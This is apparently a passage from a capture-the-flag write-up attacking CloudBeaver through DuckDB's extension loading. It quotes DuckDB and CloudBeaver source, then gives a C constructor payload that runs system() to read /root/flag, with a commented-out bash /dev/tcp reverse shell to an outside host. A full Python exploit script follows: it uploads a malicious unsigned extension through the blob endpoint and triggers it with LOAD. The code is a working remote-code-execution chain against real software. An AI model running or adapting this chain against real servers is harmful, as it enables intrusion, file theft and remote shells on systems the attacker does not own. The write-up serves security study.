                 StringUtil::Format("Unknown ABI Type of value '%d' found when loading extension '%s'",
                                    static_cast<uint8_t>(load_state.init_result.abi_type),
                                    load_state.init_result.filename));
   return nullptr;
  }

  load_state.api_struct = load_state.db.GetExtensionAPIV1();
  return &load_state.api_struct;
 }
};

//===--------------------------------------------------------------------===//
// Load External Extension
//===--------------------------------------------------------------------===//
#ifndef DUCKDB_DISABLE_EXTENSION_LOAD
// The C++ init function
typedef void (*ext_init_fun_t)(ExtensionLoader &);
// The C init function
typedef bool (*ext_init_c_api_fun_t)(duckdb_extension_info info, duckdb_extension_access *access);

template <class T>
static T LoadFunctionFromDLL(void *dll, const string &function_name, const string &filename) {
 auto function = dlsym(dll, function_name.c_str());
 if (!function) {
  throw IOException("File \"%s\" did not contain function \"%s\": %s", filename, function_name, GetDLError());
 }
 return (T)function;
}
#endif

template <class T>
static T TryLoadFunctionFromDLL(void *dll, const string &function_name, const string &filename) {
 auto function = dlsym(dll, function_name.c_str());
 if (!function) {
  return nullptr;
 }
 return (T)function;
}

static void ComputeSHA256String(const string &to_hash, string *res) {
 // Invoke MbedTls function to actually compute sha256
 *res = duckdb_mbedtls::MbedTlsWrapper::ComputeSha256Hash(to_hash);
}

static void ComputeSHA256FileSegment(FileHandle *handle, const idx_t start, const idx_t end, string *res) {
 idx_t iter = start;
 const idx_t segment_size = 1024ULL * 8ULL;

 duckdb_mbedtls::MbedTlsWrapper::SHA256State state;

 string to_hash;
 while (iter < end) {
  idx_t len = std::min(end - iter, segment_size);
  to_hash.resize(len);
  handle->Read((void *)to_hash.data(), len, iter);

  state.AddString(to_hash);

  iter += segment_size;
 }

 *res = state.Finalize();
}

static string FilterZeroAtEnd(string s) {
 while (!s.empty() && s.back() == '\0') {
  s.pop_back();
 }
 return s;
}

ParsedExtensionMetaData ExtensionHelper::ParseExtensionMetaData(const char *metadata) noexcept {
 ParsedExtensionMetaData result;

 vector<string> metadata_field;
 for (idx_t i = 0; i < 8; i++) {
  string field = string(metadata + i * 32, 32);
  metadata_field.emplace_back(field);
 }

 std::reverse(metadata_field.begin(), metadata_field.end());

 // Fetch the magic value and early out if this is invalid: the rest will just be bogus
 result.magic_value = FilterZeroAtEnd(metadata_field[0]);
 if (!result.AppearsValid()) {
  return result;
 }

 result.platform = FilterZeroAtEnd(metadata_field[1]);

 result.extension_version = FilterZeroAtEnd(metadata_field[3]);

 auto extension_abi_metadata = FilterZeroAtEnd(metadata_field[4]);

 if (extension_abi_metadata == "C_STRUCT") {
  result.abi_type = ExtensionABIType::C_STRUCT;
  result.duckdb_capi_version = FilterZeroAtEnd(metadata_field[2]);
 } else if (extension_abi_metadata == "C_STRUCT_UNSTABLE") {
  result.abi_type = ExtensionABIType::C_STRUCT_UNSTABLE;
  result.duckdb_version = FilterZeroAtEnd(metadata_field[2]);
 } else if (extension_abi_metadata == "CPP" || extension_abi_metadata.empty()) {
  result.abi_type = ExtensionABIType::CPP;
  result.duckdb_version = FilterZeroAtEnd(metadata_field[2]);
 } else {
  result.abi_type = ExtensionABIType::UNKNOWN;
  result.duckdb_version = "unknown";
  result.extension_abi_metadata = extension_abi_metadata;
 }

 result.signature = string(metadata, ParsedExtensionMetaData::FOOTER_SIZE - ParsedExtensionMetaData::SIGNATURE_SIZE);
 return result;
}

ParsedExtensionMetaData ExtensionHelper::ParseExtensionMetaData(FileHandle &handle) {
 const string engine_version = string(ExtensionHelper::GetVersionDirectoryName());
 const string engine_platform = string(DuckDB::Platform());

 string metadata_segment;
 metadata_segment.resize(ParsedExtensionMetaData::FOOTER_SIZE);

 if (handle.GetFileSize() < ParsedExtensionMetaData::FOOTER_SIZE) {
  throw InvalidInputException(
      "File '%s' is not a DuckDB extension. Valid DuckDB extensions must be at least %llu bytes", handle.path,
      ParsedExtensionMetaData::FOOTER_SIZE);
 }

 handle.Read((void *)metadata_segment.data(), metadata_segment.size(),
             handle.GetFileSize() - ParsedExtensionMetaData::FOOTER_SIZE);

 return ParseExtensionMetaData(metadata_segment.data());
}

bool ExtensionHelper::CheckExtensionSignature(FileHandle &handle, ParsedExtensionMetaData &parsed_metadata,
                                              const bool allow_community_extensions) {
 auto signature_offset = handle.GetFileSize() - ParsedExtensionMetaData::SIGNATURE_SIZE;

 const idx_t maxLenChunks = 1024ULL * 1024ULL;
 const idx_t numChunks = (signature_offset + maxLenChunks - 1) / maxLenChunks;
 vector<string> hash_chunks(numChunks);
 vector<idx_t> splits(numChunks + 1);

 for (idx_t i = 0; i < numChunks; i++) {
  splits[i] = maxLenChunks * i;
 }
 splits.back() = signature_offset;

#ifndef DUCKDB_NO_THREADS
 vector<std::thread> threads;
 threads.reserve(numChunks);
 for (idx_t i = 0; i < numChunks; i++) {
  threads.emplace_back(ComputeSHA256FileSegment, &handle, splits[i], splits[i + 1], &hash_chunks[i]);
 }

 for (auto &thread : threads) {
  thread.join();
 }
#else
 for (idx_t i = 0; i < numChunks; i++) {
  ComputeSHA256FileSegment(&handle, splits[i], splits[i + 1], &hash_chunks[i]);
 }
#endif // DUCKDB_NO_THREADS

 string hash_concatenation;
 hash_concatenation.reserve(32 * numChunks); // 256 bits -> 32 bytes per chunk

 for (auto &hash_chunk : hash_chunks) {
  hash_concatenation += hash_chunk;
 }

 string two_level_hash;
 ComputeSHA256String(hash_concatenation, &two_level_hash);

 // TODO maybe we should do a stream read / hash update here
 handle.Read((void *)parsed_metadata.signature.data(), parsed_metadata.signature.size(), signature_offset);

 for (auto &key : ExtensionHelper::GetPublicKeys(allow_community_extensions)) {
  if (duckdb_mbedtls::MbedTlsWrapper::IsValidSha256Signature(key, parsed_metadata.signature, two_level_hash)) {
   return true;
   break;
  }
 }

 return false;
}

bool ExtensionHelper::TryInitialLoad(DatabaseInstance &db, FileSystem &fs, const string &extension,
                                     ExtensionInitResult &result, string &error) {
#ifdef DUCKDB_DISABLE_EXTENSION_LOAD
 throw PermissionException("Loading external extensions is disabled through a compile time flag");
#else
 if (!db.config.options.enable_external_access) {
  throw PermissionException("Loading external extensions is disabled through configuration");
 }
 auto filename = fs.ConvertSeparators(extension);

 bool direct_load;

 // shorthand case
 if (!ExtensionHelper::IsFullPath(extension)) {
  direct_load = false;
  string extension_name = ApplyExtensionAlias(extension);
#ifdef WASM_LOADABLE_EXTENSIONS
  string url_template = ExtensionUrlTemplate(&config, "");
  string url = ExtensionFinalizeUrlTemplate(url_template, extension_name);

  char *str = (char *)EM_ASM_PTR(
      {
       var jsString = ((typeof runtime == 'object') && runtime && (typeof runtime.whereToLoad == 'function') &&
                       runtime.whereToLoad)
                          ? runtime.whereToLoad(UTF8ToString($0))
                          : (UTF8ToString($1));
       var lengthBytes = lengthBytesUTF8(jsString) + 1;
       // 'jsString.length' would return the length of the string as UTF-16
       // units, but Emscripten C strings operate as UTF-8.
       var stringOnWasmHeap = _malloc(lengthBytes);
       stringToUTF8(jsString, stringOnWasmHeap, lengthBytes);
       return stringOnWasmHeap;
      },
      filename.c_str(), url.c_str());
  string address(str);
  free(str);

  filename = address;
#else

  // Local function to process local path
  auto ComputeLocalExtensionPath = [&fs](const string &base_path, const string &extension_name) -> string {
   // convert random separators to platform-canonic
   string local_path = fs.ConvertSeparators(base_path);
   // expand ~ in extension directory
   local_path = fs.ExpandPath(local_path);
   auto path_components = PathComponents();
   for (auto &path_ele : path_components) {
    local_path = fs.JoinPath(local_path, path_ele);
   }
   return fs.JoinPath(local_path, extension_name + ".duckdb_extension");
  };

  // Collect all directories to search for extensions
  vector<string> search_directories;
  if (!db.config.options.extension_directory.empty()) {
   search_directories.push_back(db.config.options.extension_directory);
  }

  if (!db.config.options.extension_directories.empty()) {
   // Add all configured extension directories
   for (const auto &dir : db.config.options.extension_directories) {
    search_directories.push_back(dir);
   }
  }

  // Add default extension directory if no custom directories configured
  if (search_directories.empty()) {
   for (const auto &path : ExtensionHelper::DefaultExtensionFolders(fs)) {
    search_directories.push_back(path);
   }
  }

  // Try each directory in sequence until extension is found
  bool found = false;
  for (const auto &directory : search_directories) {
   filename = ComputeLocalExtensionPath(directory, extension_name);
   if (fs.FileExists(filename)) {
    found = true;
    break;
   }
  }

  // If not found in any directory, use the first directory for error reporting
  if (!found) {
   filename = ComputeLocalExtensionPath(search_directories[0], extension_name);
  }
#endif
 } else {
  direct_load = true;
  filename = fs.ExpandPath(filename);
 }
 if (!fs.FileExists(filename)) {
  string message;
  bool exact_match = ExtensionHelper::CreateSuggestions(extension, message);
  if (exact_match) {
   message += "\nInstall it first using \"INSTALL " + extension + "\".";
  }
  error = StringUtil::Format("Extension \"%s\" not found.\n%s", filename, message);
  return false;
 }

 auto handle = fs.OpenFile(filename, FileFlags::FILE_FLAGS_READ);

 // Parse the extension metadata from the extension binary
 auto parsed_metadata = ParseExtensionMetaData(*handle);

 auto metadata_mismatch_error = parsed_metadata.GetInvalidMetadataError();

 if (!metadata_mismatch_error.empty()) {
  metadata_mismatch_error = StringUtil::Format("Failed to load '%s', %s", extension, metadata_mismatch_error);
 }

 if (!db.config.options.allow_unsigned_extensions) {
  bool signature_valid;
  if (parsed_metadata.AppearsValid()) {
   signature_valid =
       CheckExtensionSignature(*handle, parsed_metadata, db.config.options.allow_community_extensions);
  } else {
   signature_valid = false;
  }

  if (!metadata_mismatch_error.empty()) {
   throw InvalidInputException(metadata_mismatch_error);
  }

  if (!signature_valid) {
   throw IOException(db.config.error_manager->FormatException(ErrorType::UNSIGNED_EXTENSION, filename));
  }
 } else if (!DBConfig::GetSetting<AllowExtensionsMetadataMismatchSetting>(db)) {
  if (!metadata_mismatch_error.empty()) {
   // Unsigned extensions AND configuration allowing n, loading allowed, mainly for
   // debugging purposes
   throw InvalidInputException(metadata_mismatch_error);
  }
 }

 auto filebase = fs.ExtractBaseName(filename);

#ifdef WASM_LOADABLE_EXTENSIONS
 EM_ASM(
     {
      // Next few lines should argubly in separate JavaScript-land function call
      // TODO: move them out / have them configurable
      const xhr = new XMLHttpRequest();
      xhr.open("GET", UTF8ToString($0), false);
      xhr.responseType = "arraybuffer";
      xhr.send(null);
      var uInt8Array = xhr.response;
      WebAssembly.validate(uInt8Array);
      console.log('Loading extension ', UTF8ToString($1));

      // Here we add the uInt8Array to Emscripten's filesystem, for it to be found by dlopen
      FS.writeFile(UTF8ToString($1), new Uint8Array(uInt8Array));
     },
     filename.c_str(), filebase.c_str());
 auto dopen_from = filebase;
#else
 auto dopen_from = filename;
#endif

 auto lib_hdl = dlopen(dopen_from.c_str(), RTLD_NOW | RTLD_LOCAL);
 if (!lib_hdl) {
  throw IOException("Extension \"%s\" could not be loaded: %s", filename, GetDLError());
 }

 auto lowercase_extension_name = StringUtil::Lower(filebase);

 // Initialize the ExtensionInitResult
 result.filebase = lowercase_extension_name;
 result.filename = filename;
 result.lib_hdl = lib_hdl;
 result.abi_type = parsed_metadata.abi_type;

 if (!direct_load) {
  auto info_file_name = filename + ".info";

  result.install_info = ExtensionInstallInfo::TryReadInfoFile(fs, info_file_name, lowercase_extension_name);

  if (result.install_info->mode == ExtensionInstallMode::UNKNOWN) {
   // The info file was missing, we just set the version, since we have it from the parsed footer
   result.install_info->version = parsed_metadata.extension_version;
  }

  if (result.install_info->version != parsed_metadata.extension_version) {
   throw IOException("Metadata mismatch detected when loading extension '%s'\nPlease try reinstalling the "
                     "extension using `FORCE INSTALL '%s'`",
                     filename, extension);
  }
 } else {
  result.install_info = make_uniq<ExtensionInstallInfo>();
  result.install_info->mode = ExtensionInstallMode::NOT_INSTALLED;
  result.install_info->full_path = filename;
  result.install_info->version = parsed_metadata.extension_version;
 }

 return true;
#endif
}

ExtensionInitResult ExtensionHelper::InitialLoad(DatabaseInstance &db, FileSystem &fs, const string &extension) {
 string error;
 ExtensionInitResult result;
 if (!TryInitialLoad(db, fs, extension, result, error)) {
  auto &config = DBConfig::GetConfig(db);
  if (!config.options.autoinstall_known_extensions || !ExtensionHelper::AllowAutoInstall(extension)) {
   throw IOException(error);
  }
  // the extension load failed - try installing the extension
  ExtensionInstallOptions options;
  ExtensionHelper::InstallExtension(db, fs, extension, options);
  // try loading again
  if (!TryInitialLoad(db, fs, extension, result, error)) {
   throw IOException(error);
  }
 }
 return result;
}

bool ExtensionHelper::IsFullPath(const string &extension) {
 return StringUtil::Contains(extension, ".") || StringUtil::Contains(extension, "/") ||
        StringUtil::Contains(extension, "\\");
}

string ExtensionHelper::GetExtensionName(const string &original_name) {
 auto extension = StringUtil::Lower(original_name);
 if (!IsFullPath(extension)) {
  return ExtensionHelper::ApplyExtensionAlias(extension);
 }
 auto splits = StringUtil::Split(StringUtil::Replace(extension, "\\", "/"), '/');
 if (splits.empty()) {
  return ExtensionHelper::ApplyExtensionAlias(extension);
 }
 splits = StringUtil::Split(splits.back(), '.');
 if (splits.empty()) {
  return ExtensionHelper::ApplyExtensionAlias(extension);
 }
 return ExtensionHelper::ApplyExtensionAlias(splits.front());
}

void ExtensionHelper::LoadExternalExtension(DatabaseInstance &db, FileSystem &fs, const string &extension) {
 auto &manager = ExtensionManager::Get(db);
 auto info = manager.BeginLoad(extension);
 if (!info) {
  return;
 }
 try {
  LoadExternalExtensionInternal(db, fs, extension, *info);
 } catch (std::exception &ex) {
  ErrorData error(ex);
  info->LoadFail(error);
  throw;
 }
}

void ExtensionHelper::LoadExternalExtensionInternal(DatabaseInstance &db, FileSystem &fs, const string &extension,
                                                    ExtensionActiveLoad &info) {
#ifdef DUCKDB_DISABLE_EXTENSION_LOAD
 throw PermissionException("Loading external extensions is disabled through a compile time flag");
#else
 auto extension_init_result = InitialLoad(db, fs, extension);

 // C++ ABI
 if (extension_init_result.abi_type == ExtensionABIType::CPP) {
  auto init_fun_name = extension_init_result.filebase + "_duckdb_cpp_init";
  ext_init_fun_t init_fun = TryLoadFunctionFromDLL<ext_init_fun_t>(extension_init_result.lib_hdl, init_fun_name,
                                                                   extension_init_result.filename);
  if (!init_fun) {
   throw IOException("Extension '%s' did not contain the expected entrypoint function '%s'", extension,
                     init_fun_name);
  }

  try {
   ExtensionLoader loader(info);
   (*init_fun)(loader);
   loader.FinalizeLoad();
  } catch (std::exception &e) {
   ErrorData error(e);
   throw InvalidInputException("Initialization function \"%s\" from file \"%s\" threw an exception: \"%s\"",
                               init_fun_name, extension_init_result.filename, error.RawMessage());
  }

  D_ASSERT(extension_init_result.install_info);

  info.FinishLoad(*extension_init_result.install_info);
  return;
 }

 // C ABI
 if (extension_init_result.abi_type == ExtensionABIType::C_STRUCT ||
     extension_init_result.abi_type == ExtensionABIType::C_STRUCT_UNSTABLE) {
  auto init_fun_name = extension_init_result.filebase + "_init_c_api";
  ext_init_c_api_fun_t init_fun_capi = TryLoadFunctionFromDLL<ext_init_c_api_fun_t>(
      extension_init_result.lib_hdl, init_fun_name, extension_init_result.filename);

  if (!init_fun_capi) {
   throw IOException("File \"%s\" did not contain function \"%s\": %s", extension_init_result.filename,
                     init_fun_name, GetDLError());
  }
  // Create the load state
  DuckDBExtensionLoadState load_state(db, extension_init_result);

  auto access = ExtensionAccess::CreateAccessStruct();
  auto result = (*init_fun_capi)(load_state.ToCStruct(), &access);

  // Throw any error that the extension might have encountered
  if (load_state.has_error) {
   load_state.error_data.Throw("An error was thrown during initialization of the extension '" + extension +
                               "': ");
  }

  // Extensions are expected to either set an error or return true indicating successful initialization
  if (result == false) {
   throw FatalException(
       "Extension '%s' failed to initialize but did not return an error. This indicates an "
       "error in the extension: C API extensions should return a boolean `true` to indicate successful "
       "initialization. "
       "This means that the Extension may be partially initialized resulting in an inconsistent state of "
       "DuckDB.",
       extension);
  }

  D_ASSERT(extension_init_result.install_info);

  info.FinishLoad(*extension_init_result.install_info);
  return;
 }

 throw IOException("Unknown ABI type of value '%s' for extension '%s'",
                   static_cast<uint8_t>(extension_init_result.abi_type), extension);
#endif
}

void ExtensionHelper::LoadExternalExtension(ClientContext &context, const string &extension) {
 LoadExternalExtension(DatabaseInstance::GetDatabase(context), FileSystem::GetFileSystem(context), extension);
}

string ExtensionHelper::ExtractExtensionPrefixFromPath(const string &path) {
 auto first_colon = path.find(':');
 if (first_colon == string::npos || first_colon < 2) { // needs to be at least two characters because windows c: ...
  return "";
 }
 auto extension = path.substr(0, first_colon);

 if (path.substr(first_colon, 3) == "://") {
  // these are not extensions
  return "";
 }

 D_ASSERT(extension.size() > 1);
 // needs to be alphanumeric
 for (auto &ch : extension) {
  if (!isalnum(ch) && ch != '_') {
   return "";
  }
 }
 return extension;
}

} // namespace duckdb
```

However, we can leverage `__attribute__ ((__constructor__))` to ensure our malicious function executes immediately upon `dlopen` (before specific DuckDB checks occur).

```c
extern "C" {
    #ifndef _WIN32
    __attribute__ ((__constructor__)) void preload (void){
        // 这里的命令会在 LOAD 语句执行的瞬间运行
        // 无论后续是否报错 "entrypoint not found"
    if (fork() == 0) {
        // 子进程
        unsetenv("LD_PRELOAD");
        system("find /etc/passwd -exec cat /root/flag '{}' ';' > /tmp/result");
        exit(0);
    }        
        // 你甚至可以直接在这里反弹 shell，不用等 SQL 执行
        // system("bash -c 'bash -i >& /dev/tcp/1.2.3.4/8888 0>&1'");
    }
    #endif
}
```

Additionally, a file upload interface exists at the `/api/resultset/blob/` route. Although the uploaded filename is not controllable, we can use this interface to upload our `DuckDB` extension.

```java
/*
 * DBeaver - Universal Database Manager
 * Copyright (C) 2010-2024 DBeaver Corp and others
 *
 * Licensed under the Apache License, Version 2.0 (the "License");
 * you may not use this file except in compliance with the License.
 * You may obtain a copy of the License at
 *
 *     http://www.apache.org/licenses/LICENSE-2.0
 *
 * Unless required by applicable law or agreed to in writing, software
 * distributed under the License is distributed on an "AS IS" BASIS,
 * WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
 * See the License for the specific language governing permissions and
 * limitations under the License.
 */
package io.cloudbeaver.service.sql;

import com.google.gson.Gson;
import com.google.gson.GsonBuilder;
import com.google.gson.reflect.TypeToken;
import io.cloudbeaver.DBWConstants;
import io.cloudbeaver.DBWebException;
import io.cloudbeaver.model.app.ServletApplication;
import io.cloudbeaver.model.session.WebSession;
import io.cloudbeaver.server.WebAppUtils;
import io.cloudbeaver.service.WebServiceServletBase;
import jakarta.servlet.MultipartConfigElement;
import jakarta.servlet.ServletException;
import jakarta.servlet.annotation.MultipartConfig;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;
import org.eclipse.jetty.ee10.servlet.ServletContextRequest;
import org.jkiss.dbeaver.DBException;
import org.jkiss.dbeaver.Log;
import org.jkiss.dbeaver.model.data.json.JSONUtils;
import org.jkiss.dbeaver.runtime.DBWorkbench;

import java.io.IOException;
import java.lang.reflect.Type;
import java.nio.file.Files;
import java.nio.file.Path;
import java.util.Map;
import java.util.UUID;

@MultipartConfig
public class WebSQLFileLoaderServlet extends WebServiceServletBase {

    private static final Log log = Log.getLog(WebSQLFileLoaderServlet.class);

    private static final Type MAP_STRING_OBJECT_TYPE = new TypeToken<Map<String, Object>>() {
    }.getType();
    private static final String REQUEST_PARAM_VARIABLES = "variables";

    private static final String TEMP_FILE_FOLDER = "temp-sql-upload-files";

    private static final String FILE_ID = "fileId";

    private static final Gson gson = new GsonBuilder()
            .serializeNulls()
            .setPrettyPrinting()
            .create();

    public WebSQLFileLoaderServlet(ServletApplication application) {
        super(application);
    }

    @Override
    protected void processServiceRequest(
            WebSession session,
            HttpServletRequest request,
            HttpServletResponse response
    ) throws DBException, IOException {
        if (!session.isAuthorizedInSecurityManager()) {
            response.sendError(HttpServletResponse.SC_FORBIDDEN, "Update for users only");
            return;
        }
        if (DBWorkbench.isDistributed() && !session.hasPermission(DBWConstants.PERMISSION_SQL_RESULT_UPDATE)) {
            response.sendError(HttpServletResponse.SC_FORBIDDEN, "Permission denied");
            return;
        }

        if (!"POST".equalsIgnoreCase(request.getMethod())) {
            return;
        }

        Path tempFolder = WebAppUtils.getWebPlatform()
                .getTempFolder(session.getProgressMonitor(), TEMP_FILE_FOLDER)
                .resolve(session.getSessionId());

        MultipartConfigElement multiPartConfig = new MultipartConfigElement(tempFolder.toString());
        request.setAttribute(ServletContextRequest.MULTIPART_CONFIG_ELEMENT, multiPartConfig);

        Map<String, Object> variables = gson.fromJson(request.getParameter(REQUEST_PARAM_VARIABLES), MAP_STRING_OBJECT_TYPE);

        String fileId = JSONUtils.getString(variables, FILE_ID);
        if (fileId == null) {
            throw new DBWebException("File ID not found");
        }
        try {
            // file id must be UUID
            UUID.fromString(fileId);
        } catch (IllegalArgumentException e) {
            throw new DBWebException("File ID is invalid");
        }
        Path file = tempFolder.resolve(fileId);
        try {
            Files.write(file, request.getPart("fileData").getInputStream().readAllBytes());
        } catch (ServletException e) {
            log.error(e.getMessage());
            throw new DBWebException(e.getMessage());
        }
    }
}
```

EXP:

```python
import requests
import json
import uuid
import time
import sys
import urllib3

# ==========================================
# 全局配置
# ==========================================
USE_PROXY = True
PROXY_ADDR = "http://127.0.0.1:8083"
TARGET_URL = "http://localhost:12225"
LOCAL_EXTENSION_FILE = "quack.duckdb_extension" 

# ==========================================
# 内部常量
# ==========================================
GQL_API = f"{TARGET_URL}/api/gql"
UPLOAD_API = f"{TARGET_URL}/api/resultset/blob/"

HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36",
    "Accept": "application/graphql-response+json, application/json",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Content-Type": "application/json",
    "Origin": TARGET_URL,
    "Referer": f"{TARGET_URL}/"
}

def main():
    s = requests.Session()

    # 0. 代理设置
    if USE_PROXY:
        print(f"[*] Proxy ENABLED: {PROXY_ADDR}")
        s.proxies.update({"http": PROXY_ADDR, "https": PROXY_ADDR})
        s.verify = False
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    
    # ==========================================
    # 1. 初始化 Session
    # ==========================================
    print("[*] Step 1: Initialize Session...")
    query_server_config = {
        "query": "\n    query serverConfig {\n  serverConfig {\n    ...ServerConfig\n  }\n}\n    \n    fragment ServerConfig on ServerConfig {\n  name\n  version\n  workspaceId\n}\n    ",
        "operationName": "serverConfig"
    }
    
    try:
        r = s.post(GQL_API, json=query_server_config, headers=HEADERS)
        
        session_id = s.cookies.get("cb-session-id")
        if not session_id:
            if 'Set-Cookie' in r.headers:
                import re
                match = re.search(r'cb-session-id=([^;]+)', r.headers['Set-Cookie'])
                if match:
                    session_id = match.group(1)
        
        if not session_id:
            print("[-] Failed to get cb-session-id")
            return
            
        print(f"[+] Session ID: {session_id}")
        HEADERS['Cookie'] = f"cb-session-id={session_id}"
        s.headers.update(HEADERS)
        
    except Exception as e:
        print(f"[-] Error initializing: {e}")
        return

    # ==========================================
    # 1.5 激活 Session
    # ==========================================
    print("[*] Step 1.5: Activating Session...")
    mutation_open_session = {
        "query": "\n    mutation openSession($defaultLocale: String) {\n  session: openSession(defaultLocale: $defaultLocale) {\n    valid\n  }\n}\n    ",
        "variables": {"defaultLocale": "en"},
        "operationName": "openSession"
    }
    r = s.post(GQL_API, json=mutation_open_session, headers=HEADERS)
    
    # ==========================================
    # 2. 创建 DuckDB 连接
    # ==========================================
    print("[*] Step 2: Creating DuckDB Connection...")
    db_path = f"/tmp/{uuid.uuid4().hex}"
    
    mutation_create_connection = {
        "query": "\n    mutation createConnection($projectId: ID!, $config: ConnectionConfig!) {\n  connection: createConnection(projectId: $projectId, config: $config) {\n    id\n  }\n}\n    ",
        "variables": {
            "projectId": "anonymous",
            "config": {
                "configurationType": "URL",
                "credentials": {"userPassword": ""},
                "driverId": "generic:duckdb_jdbc",
                "name": "DuckDB Exploit",
                "url": f"jdbc:duckdb:{db_path}",
                "properties": {"allow_unsigned_extensions": "true"}
            }
        },
        "operationName": "createConnection"
    }

    r = s.post(GQL_API, json=mutation_create_connection, headers=HEADERS)
    try:
        connection_id = r.json()['data']['connection']['id']
        print(f"[+] Connection ID: {connection_id}")
    except:
        print(f"[-] Failed to create connection: {r.text}")
        return

    # ==========================================
    # 2.5 [核心] 创建 SQL Context
    # ==========================================
    print("[*] Step 2.5: Creating SQL Context (MANDATORY)...")
    mutation_create_context = {
        "query": "\n    mutation sqlContextCreate($connectionId: ID!, $defaultCatalog: String, $defaultSchema: String) {\n  context: sqlContextCreate(connectionId: $connectionId, defaultCatalog: $defaultCatalog, defaultSchema: $defaultSchema) {\n    id\n  }\n}\n    ",
        "variables": {
            "connectionId": connection_id,
            "defaultCatalog": None,
            "defaultSchema": None
        },
        "operationName": "sqlContextCreate"
    }
    
    r = s.post(GQL_API, json=mutation_create_context, headers=HEADERS)
    try:
        context_id = r.json()['data']['context']['id']
        print(f"[+] SQL Context ID: {context_id}")
    except:
        print(f"[-] Failed to create SQL Context: {r.text}")
        return

    # ==========================================
    # 3. 上传 Payload (手动 Multipart)
    # ==========================================
    print("[*] Step 3: Uploading Payload...")
    file_uuid = str(uuid.uuid4())
    upload_variables = json.dumps({"fileId": file_uuid})
    
    try:
        with open(LOCAL_EXTENSION_FILE, 'rb') as f:
            file_content = f.read()
    except:
        print(f"[-] File {LOCAL_EXTENSION_FILE} not found.")
        return

    boundary = "----WebKitFormBoundaryCTF"
    body = (
        f"--{boundary}\r\n"
        f'Content-Disposition: form-data; name="variables"\r\n\r\n'
        f"{upload_variables}\r\n"
        f"--{boundary}\r\n"
        f'Content-Disposition: form-data; name="fileData"; filename="exploit.bin"\r\n'
        f"Content-Type: application/octet-stream\r\n\r\n"
    ).encode('utf-8') + file_content + f"\r\n--{boundary}--\r\n".encode('utf-8')

    upload_headers = HEADERS.copy()
    upload_headers['Content-Type'] = f"multipart/form-data; boundary={boundary}"
    
    r = s.post(UPLOAD_API, data=body, headers=upload_headers)
    if r.status_code != 200:
        print(f"[-] Upload failed: {r.status_code}")
        return
        
    remote_path = f"/tmp/dbeaver/.work-data/temp-sql-upload-files/{session_id}/{file_uuid}"
    print(f"[+] Remote Path: {remote_path}")
    
    # ==========================================
    # 4. 执行 Payload (LOAD)
    # ==========================================
    print("[*] Step 4: Executing LOAD (Triggering Exploit)...")
    # 这里我们只管发，不看结果，因为LOAD必然报错
    run_sql(s, connection_id, context_id, f"load '{remote_path}'", ignore_error=True)
    
    print("[*] Waiting 3 seconds for SUID find command to finish...")
    time.sleep(3)
    
    # ==========================================
    # 5. 读取结果
    # ==========================================
    print("[*] Step 5: Reading /tmp/result...")
    result_json = run_sql(s, connection_id, context_id, "SELECT * FROM read_text('/tmp/result')")
    
    if result_json and 'data' in result_json:
        try:
            # 尝试提取 flag
            rows = result_json['data']['result']['results'][0]['resultSet']['rowsWithMetaData']
            if rows:
                content = rows[0]['data'][1] # DuckDB read_text 第二列通常是 content
                print("\n" + "#"*60)
                print("FLAG FOUND:")
                print("#"*60)
                print(content.strip())
                print("#"*60)
            else:
                print("[-] /tmp/result is empty.")
        except Exception as e:
            print(f"[-] Structure error: {e}")
            print(json.dumps(result_json, indent=2))
    else:
        print("[-] No data returned.")

def run_sql(session, connection_id, context_id, sql_query, ignore_error=False):
    """
    执行SQL并轮询，处理 NullValue 错误
    """
    mutation_execute = {
        "query": "\n    mutation asyncSqlExecuteQuery($projectId: ID!, $connectionId: ID!, $contextId: ID!, $query: String!, $resultId: ID, $filter: SQLDataFilter, $dataFormat: ResultDataFormat, $readLogs: Boolean, $isInteractive: Boolean) {\n  taskInfo: asyncSqlExecuteQuery(\n    projectId: $projectId\n    connectionId: $connectionId\n    contextId: $contextId\n    sql: $query\n    resultId: $resultId\n    filter: $filter\n    dataFormat: $dataFormat\n    readLogs: $readLogs\n    isInteractive: $isInteractive\n  ) {\n    id\n    running\n  }\n}\n    ",
        "variables": {
            "projectId": "anonymous",
            "connectionId": connection_id,
            "contextId": context_id, # 必须使用 Step 2.5 获取的 ID
            "query": sql_query,
            "filter": {"offset": 0, "limit": 200, "constraints": []},
            "dataFormat": "resultset",
            "readLogs": False,
            "isInteractive": True
        },
        "operationName": "asyncSqlExecuteQuery"
    }
    
    r = session.post(GQL_API, json=mutation_execute, headers=HEADERS)
    try:
        task_id = r.json()['data']['taskInfo']['id']
    except:
        if not ignore_error: print(f"[-] Exec Init Failed: {r.text}")
        return None

    mutation_get_result = {
        "query": "\n    mutation getSqlExecuteTaskResults($taskId: ID!) {\n  result: asyncSqlExecuteResults(taskId: $taskId) {\n    statusMessage\n    results {\n      resultSet {\n        rowsWithMetaData {\n          data\n        }\n      }\n    }\n  }\n}\n    ",
        "variables": {"taskId": task_id},
        "operationName": "getSqlExecuteTaskResults"
    }

    # 轮询 10 次
    for i in range(10):
        r = session.post(GQL_API, json=mutation_get_result, headers=HEADERS)
        res_json = r.json()
        
        # 处理 GraphQL Errors
        if 'errors' in res_json:
            err_msg = res_json['errors'][0].get('message', '')
            
            # 如果是 LOAD 命令且报错，通常是预期的 (不是有效扩展)
            if ignore_error: return None
            
            # 如果是 NullValue 错误，说明任务还没准备好，等待并重试
            if "NullValueInNonNullableField" in str(res_json):
                time.sleep(0.5)
                continue
            
            # 其他错误
            print(f"[-] SQL Error: {err_msg}")
            return None

        # 如果拿到了结果
        if res_json.get('data', {}).get('result'):
            return res_json
            
        time.sleep(0.5)
        
    return None

if __name__ == "__main__":
    main()
```
